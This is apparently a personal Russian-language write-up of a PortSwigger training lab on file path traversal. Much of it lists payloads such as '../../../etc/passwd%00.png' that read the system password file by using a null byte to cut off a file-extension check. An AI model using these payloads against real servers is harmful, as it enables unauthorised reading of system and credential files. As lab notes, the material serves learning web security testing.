


https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass
лаба про то что 
filename=../../../etc/passwd%00.png
%00 символом нулевого байта можно обрезать строку запроса игнорируя дальненйший тип рамширения файла

нужно достать файл `/etc/passwd`.

----

я запустил турбо интрудер - результат - ноль
перебирая вручную понял один важный момент!

filename=../../../etc/passwd%00.png  этот сработал и выдал мне файл

но почему сработало %00 ? перед типом?
ведь это не работает filename=../../../etc/passwd.png
это работает filename=../../../etc/passwd%00.png
 это тоже не работает  filename=../../../etc/passwd.image
 и это нет filename=../../../etc/passwd.pgf

только этот да filename=../../../etc/passwd%00.png
а так уже нет    filename=../../../etc/passwd.png

filename=../../../etc/passwd%00    тоже нет (хотя нул байт обрезает же?)
filename=../../../etc/passwd%00.  тоже нет..

# смысл в том, что в данном случае система для данного запроса разрешает выдачу только файлов с разрешением .png
# система вероятно проверяет просто последние 4 символа в запросе и если расширение не .png то и доступа нет

# а вот нулевой байт нужен уже для того чтобы обрезать проверку на тип в самом запросе к файлу , так как у самого файла passwd расширение точно не png - то нужно обрезать эту часть с неправильным типом для passwd

# а само расширение для этого запроса это картинки ! поэтому GET /image?filename=../../../etc/passwd%00.jpg  тоже подходит!

то есть я посмотрел теперь оригинальный запрос и увидел там jpg
подставил свой пейлоад 
../../../etc/passwd%00.jpg      РАБОТАЕТ
../../../etc/passwd%00.png    РАБОТАЕТ

# 
система проверяла только тип запрашиваемого файла, 
не блокировала ни число запросов
ни спец символы
ни спец слова не блокировались
нулевой байт использовал чтобы отсечь тип запраш файла!
